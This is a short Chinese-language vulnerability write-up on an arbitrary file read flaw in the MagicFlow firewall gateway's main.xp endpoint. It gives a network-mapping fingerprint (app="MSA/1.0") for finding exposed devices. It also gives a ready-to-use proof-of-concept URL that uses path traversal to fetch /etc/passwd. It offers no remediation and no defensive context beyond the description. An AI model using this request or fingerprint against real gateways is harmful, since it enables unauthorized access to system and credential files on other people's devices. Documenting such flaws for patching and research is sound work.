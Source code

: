 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

<a-checkbox checked>MagicFlow 防火墙网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MSA/1.0"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210609181301702.png)



构造POC



```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```



![img](/assets/PeiQi-Wiki/img/image-20210609182245927.png)